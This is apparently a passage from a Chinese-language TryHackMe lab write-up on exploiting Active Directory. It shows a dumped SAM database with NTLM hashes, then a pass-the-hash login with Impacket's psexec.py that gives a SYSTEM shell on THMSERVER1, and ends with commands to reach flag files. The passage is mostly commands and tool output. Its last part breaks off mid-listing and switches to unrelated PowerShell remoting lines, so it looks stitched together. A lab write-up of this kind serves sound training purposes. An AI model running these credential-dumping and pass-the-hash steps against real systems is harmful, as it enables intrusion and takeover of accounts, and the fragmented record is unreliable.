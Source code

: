 [+] NewStyle hashes is: True
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:92728d5173fc94a54e84f8b457af63a8:::
[+] NewStyle hashes is: True
vagrant:1000:aad3b435b51404eeaad3b435b51404ee:e96eab5f240174fe2754efc94f6a53ae:::
[+] NewStyle hashes is: True
trevor.local:1001:aad3b435b51404eeaad3b435b51404ee:43460d636f269c709b20049cee36ae7a:::
[*] Done dumping SAM hashes for host: 10.200.60.201
[*] Stopping service RemoteRegistry

```

可以看到已经打印出THMSERVER1的sam数据库里的哈希信息

```
ServerAdmin:500:aad3b435b51404eeaad3b435b51404ee:3279a0c6dfe15dc3fb6e9c26dd9b066c:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:92728d5173fc94a54e84f8b457af63a8:::
vagrant:1000:aad3b435b51404eeaad3b435b51404ee:e96eab5f240174fe2754efc94f6a53ae:::
trevor.local:1001:aad3b435b51404eeaad3b435b51404ee:43460d636f269c709b20049cee36ae7a:::
```


pth 拿到flag

```
┌──(root💀kali)-[~/tryhackme/ExploitingActiveDirectory]
└─# python3 /usr/share/doc/python3-impacket/examples/psexec.py  -hashes "aad3b435b51404eeaad3b435b51404ee:3279a0c6dfe15dc3fb6e9c26dd9b066c" ServerAdmin@10.200.60.201                                                                   1 ⨯
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Requesting shares on 10.200.60.201.....
[*] Found writable share ADMIN$
[*] Uploading file FvdiIslE.exe
[*] Opening SVCManager on 10.200.60.201.....
[*] Creating service Yzmr on 10.200.60.201.....
[*] Starting service Yzmr.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.1098]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> hostname
THMSERVER1

C:\Windows\system32> cd c:/users/Administrator.ZA/desktop
 
c:\Users\Administrator.ZA\Desktop> dir
 Volume in drive C is Windows
 Volume Serial Number is 1634-22A9

 Directory of c:\Users\Administrator.ZA\Desktop


[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> whoami
[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> cd c:/users/administrator/desktop
[thmserver1.za.tryhackme.loc]: PS C:\users\administrator\desktop> ls
[thmserver1.za.tryhackme.loc]: PS C:\users\administrator\desktop> type flag2.txt